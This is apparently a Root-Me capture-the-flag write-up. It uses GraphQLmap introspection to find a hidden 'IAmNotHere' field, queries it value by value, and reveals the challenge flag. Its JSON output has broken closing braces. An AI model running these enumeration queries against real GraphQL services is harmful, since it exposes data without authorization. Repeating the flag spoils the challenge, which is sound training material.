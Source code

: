 ```yaml
---
layout: default
title: GraphQL-Introspection
---
```


Here, we can see there is a basic `GraphQL-Introspection` we can execute. I'll use this tool [GraphQLmap](https://github.com/swisskyrepo/GraphQLmap).

execute this command
`graphqlmap -u http://challenge01.root-me.org:59077/rocketql -v --method POST`

and then, `dump_via_introspection`.

![graphqlmap image](./images/GraphQL-Introspection_graphqlmap.png)

Okay, let's see what is found inside `IAmNotHere`
```bash
GraphQLmap > {IAmNotHere(very_long_id:0){very_long_value}}
None
{
    "data": {
        "IAmNotHere": null
    {
{
```

Fine, next value:
```bash
GraphQLmap > {IAmNotHere(very_long_id:1){very_long_value}}
None
{
    "data": {
        "IAmNotHere": [
            {
                "very_long_value": "n"
            {
        ]
    {
{
```
Interesting, let's auto this using burp
![Final image](./images/GraphQL-Introspection_FLAG.png)

We are getting: `nothingherelol`, and then, we can see the flag: `RM{1ntr0sp3ct1On_1s_us3ful}`

**Flag:** **_`RM{1ntr0sp3ct1On_1s_us3ful}`_**
